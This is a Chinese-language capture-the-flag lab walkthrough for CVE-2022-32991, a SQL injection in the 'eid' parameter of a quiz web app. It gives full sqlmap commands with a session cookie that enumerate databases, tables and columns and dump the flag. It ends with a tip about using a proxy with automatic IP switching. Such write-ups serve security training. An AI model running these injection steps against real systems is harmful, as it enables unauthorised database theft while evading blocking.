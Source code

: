 ### 春秋云镜（CVE-2022-32991）靶场操作流程

1. #### 进入靶场并注册登录

   进入靶场后，能看到登录和注册按钮。

   ![image-20250425204004014](.\images\image-20250425204004014.png)

   点击注册按钮，填写用户名（如 123）、邮箱（如 123@123.com ）、密码、学院名称（如 123）后完成注册，接着进行登录操作。

   ![image-20250425204035334](.\images\image-20250425204035334.png)

   ![image-20250425204110884](.\images\image-20250425204110884.png)

2. #### 寻找注入点

   登录成功后，点击首页第一个 “Start” 按钮，此时首页出现 PHP 报错，可忽略。

   ![image-20250425204124799](.\images\image-20250425204124799.png)

   ![image-20250425204142257](.\images\image-20250425204142257.png)

   发现页面存在 GET 传参，尝试后确定参数 “eid” 存在注入点。例如访问：http://eci-2ze92nbl08w2mlsza1bj.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694%27&n=18t=34发现页面出现报错提示。

   ![image-20250425204200188](.\images\image-20250425204200188.png)

3. #### 使用 sqlmap 进行注入检测

   由于之前进行了登录操作，需获取 Cookie。

   ![image-20250425204217300](.\images\image-20250425204217300.png)

   使用命令python sqlmap.py -u "http://eci-2ze92nbl08w2mlsza1bj.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" --cookie="PHPSESSID=f6s7epn3k5p830etf6lckketn1" --batch -p "eid"检测参数 “eid” 是否存在注入。

   通过回显得知 “eid” 包含布尔注入、报错注入、时间盲注以及联合注入四种注入方式，且后端数据库管理系统为 MySQL。

   ![image-20250425204238880](.\images\image-20250425204238880.png)

4. #### 获取数据库、表、字段及内容

   **获取数据库**：使用命令python sqlmap.py -u "http://eci-2ze92nbl08w2mlsza1bj.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" --cookie="PHPSESSID=f6s7epn3k5p830etf6lckketn1" --batch -p "eid" --dbs，成功获取四个数据库。
   
   ![image-20250425204253211](.\images\image-20250425204253211.png)
   
   **获取指定数据库中的表**：选择 “ctf” 数据库，使用命令python sqlmap.py -u "http://eci-2ze92nbl08w2mlsza1bj.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" --cookie="PHPSESSID=f6s7epn3k5p830etf6lckketn1" --batch -p "eid" -D "ctf" --tables，获取到 “ctf” 数据库中的 “flag” 表等 9 张表。
   
   ![image-20250425204300983](.\images\image-20250425204300983.png)
   
   **获取指定表中的字段**：针对 “flag” 表，使用命令python sqlmap.py -u "http://eci-2ze92nbl08w2mlsza1bj.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" --cookie="PHPSESSID=f6s7epn3k5p830etf6lckketn1" --batch -p "eid" -D "ctf" -T "flag" --columns，发现 “flag” 表中有一个名为 “flag” 的字段。
   
   ![image-20250425204308738](.\images\image-20250425204308738.png)
   
   **获取指定字段的内容**：使用命令python sqlmap.py -u "http://eci-2ze92nbl08w2mlsza1bj.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" --cookie="PHPSESSID=f6s7epn3k5p830etf6lckketn1" --batch -p "eid" -D "ctf" -T "flag" -C "flag" --dump，成功获得 “flag” 字段中的内容，即得到 flag。
   
   ![image-20250425204314719](.\images\image-20250425204314719.png)



##### 注意：

作者在攻击靶场的适合使用了代理，同时开启了IP自动切换。如果有人的sqlmap无法正常链接的时候可以参考作者的做法。